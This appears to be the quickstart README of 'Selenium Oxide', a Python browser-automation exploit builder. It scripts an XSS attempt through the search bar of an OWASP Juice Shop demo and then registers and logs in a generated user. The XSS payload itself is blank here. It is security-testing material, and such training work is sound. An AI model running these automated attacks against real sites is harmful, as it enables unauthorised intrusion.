

# Quickstart

Selenium Oxide comes with 2 usable parts as of 2.0.0: the Exploit Builder and the User Generator. You can use both fairly easily in the same exploit!

## Using the Exploit Builder

The Exploit Generator is designed to be used similar to Builder Pattern classes in object-oriented programming: you chain functions together and eventually get a result.

Well, here we have the chaining, and the result unfolds as the program executes, so I think that counts?

Either way, let's have a look at writing an exploit against a publicly available demo of OWASP Juice Shop.

## Setting Up

Let's start by importing everything we need and initializing our Exploit Builder:

```python
# engagements/quickstart.py

from selenium_oxide import ExploitBuilder

exploit = ExploitBuilder("https://juice-shop.herokuapp.com")

exploit.get("/")
```

Let's see what that gets us:


Hmm. Looks like we have our first hurdle already. We need to click that "Dismiss" button to proceed. Let's copy the XPath of that button by inspecting it in dev tools, right clicking, and then selecting Copy -> XPath.

```python
from selenium_oxide import ExploitBuilder

exploit = ExploitBuilder("https://juice-shop.herokuapp.com")

dismiss_button_xpath = "/html/body/div[3]/div[2]/div/mat-dialog-container/app-welcome-banner/div/div[2]/button[2]"

exploit.get("/").click(dismiss_button_xpath, timeout=10)

print("[*] Dismissed pop-up.")
```

We'll set the XPath as a variable for now, and then we just need to click on the button itself. With Juice Shop in particular, the elements can take a bit to load, so allocate something like 10 or more seconds for the click to register properly.

Since the timeouts are high, I'd recommend adding a little print statement at the end to let you know when the program has completed, like I did.

## First Actual Exploit

Let's actually try and get an exploit going. For this one, we can make a little XSS pop up using the search bar. This one has you click a button and then type some text, so let's do that.

```python
# ---SNIP---

search_xpath = '//*[@id="mat-input-0"]'

search_xss_payload = (
    ''
)

(
    exploit.get("/")
    .click(dismiss_button_xpath, timeout=10)
    .click('//*[@id="searchQuery"]')
    .type_entry(
        search_xpath,
        search_xss_payload,
    )
    .send_enter(search_xpath)
)

print("[*] Exploit complete.")
```

With this one, it might be necessary to dig through the HTML until you find the `input` tag that actually lets you send keystrokes.

However, if we run that, and all goes well, we should get an XSS pop up! Hooray!



## Using the User Generator

Let's make use of that User Generator and sign up some users for the site. For this site, the default password of SeO2User isn't quite right, so we'll also need to set a password.

Before moving further, we'll also want to make sure that an alert actually fired for the XSS exploit.

```python
from selenium_oxide import ExploitBuilder, SeO2User

# ---SNIP---

user = SeO2User(password="Password1!")

(
    exploit.get("/")
# ---SNIP---
)

if not exploit.wait_for_alert():
    print("[-] Alert not fired.")
    sys.exit(1)

print("[*] Exploit complete.")
```

Then, we need to go to the registration page, grab the XPaths for all of the different inputs, and give an answer for a security question -- because of course those are still around.

```python

# ---SNIP---

(
    exploit.get("/#/register")
    .type_entry('//*[@id="emailControl"]', user.email)
    .type_entry('//*[@id="passwordControl"]', user.password)
    .type_entry('//*[@id="repeatPasswordControl"]', user.password)
    .click(
        "/html/body/app-root/div/mat-sidenav-container/mat-sidenav-content/app-register/div/mat-card/div[2]/div[1]/mat-form-field[1]/div/div[1]/div[3]/mat-select/div/div[2]"
    ) # This is for the security question option box
    .click("/html/body/div[3]/div[2]/div/div/div/mat-option[1]/span")
    .type_entry('//*[@id="securityAnswerControl"]', user.name)
    .click('//*[@id="registerButton"]')
)

print("[*] Exploit complete.")
```

If all goes well, you should be redirected to a login page. Luckily, we have a convenience function for that!

`login()` takes an endpoint, username, password, and XPaths (or, actually, whatever selector if you use the "by" parameter) for the username and password fields, as well as the submit button. Handy!

```python

# ---SNIP---

(
    exploit.get("/#/register")
    .type_entry('//*[@id="emailControl"]', user.email)
    .type_entry('//*[@id="passwordControl"]', user.password)
    .type_entry('//*[@id="repeatPasswordControl"]', user.password)
    .click(
        "/html/body/app-root/div/mat-sidenav-container/mat-sidenav-content/app-register/div/mat-card/div[2]/div[1]/mat-form-field[1]/div/div[1]/div[3]/mat-select/div/div[2]"
    ) # This is for the security question option box
    .click("/html/body/div[3]/div[2]/div/div/div/mat-option[1]/span")
    .type_entry('//*[@id="securityAnswerControl"]', user.name)
    .click('//*[@id="registerButton"]')
    .login(
        "/#/login",
        user.email,
        user.password,
        '//*[@id="email"]',
        '//*[@id="password"]',
        '//*[@id="loginButton"]',
    )
)

print("[*] Exploit complete.")
```

## Moving On

Hopefully this has given you some insight as to how to use Selenium Oxide in a broad sense. There are more features under the hood, such as the API interface, JavaScript execution, cookie manipulation, and more!
